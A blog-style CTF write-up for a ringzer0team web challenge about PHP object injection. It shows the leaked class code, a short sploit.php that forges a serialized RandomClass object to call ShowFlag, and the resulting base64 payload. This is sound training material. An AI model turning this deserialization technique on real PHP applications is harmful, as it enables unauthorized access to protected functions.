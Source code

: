 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members (?). Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e

root@kali:~/Challenge41# php sploit.php | base64
TzoxMToiUmFuZG9tQ2xhc3MiOjE6e3M6MjA6IgBSYW5kb21DbGFzcwB1U3RydWN0IjtPOjg6InN0
ZENsYXNzIjozOntzOjQ6InRpbWUiO3M6MToiMSI7czo0OiJmbGFnIjtzOjc6IlBsZWFzZT8iO3M6
NjoiYWN0aW9uIjtzOjg6IlNob3dGbGFnIjt9fQ==

{% endhighlight %}
